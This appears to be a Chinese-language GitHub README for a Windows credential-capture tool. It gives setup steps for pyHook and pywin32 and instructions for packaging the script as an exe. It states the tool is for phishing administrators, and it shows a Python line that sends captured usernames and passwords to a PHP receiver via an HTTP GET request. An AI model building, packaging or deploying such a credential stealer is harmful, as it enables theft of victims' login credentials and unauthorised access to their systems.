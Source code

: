 ### windows凭证捕获 ##
环境准备：
```
pywin32
pyHook
requests
pycom
```
下载好pyHook后扔入以下路径：
```
C:\Program Files\Python37\Lib\site-packages
```

如果需要打包成exe话，请pip安装pyinstaller
```
pip install pyinstaller
pyinstaller -F <xxx.py>
```

可用于钓鱼管理员,最后脚本会将捕获到的:username和password

通过请求指定的php来接收密码
```python
rqt=requests.get(url='http://127.0.0.1/jieshou.php?password={}'.format(str(j)),headers={'user-agent':'nb'})
```

请自行打包exe

效果图如下：
![](https://s2.ax1x.com/2019/08/13/mpheud.gif)

由于要安装pyHook库，我这里直接上传了

不要去lfd下，那个只要窗体不是Unicode编码就直接报错了
https://www.lfd.uci.edu/~gohlke/pythonlibs/

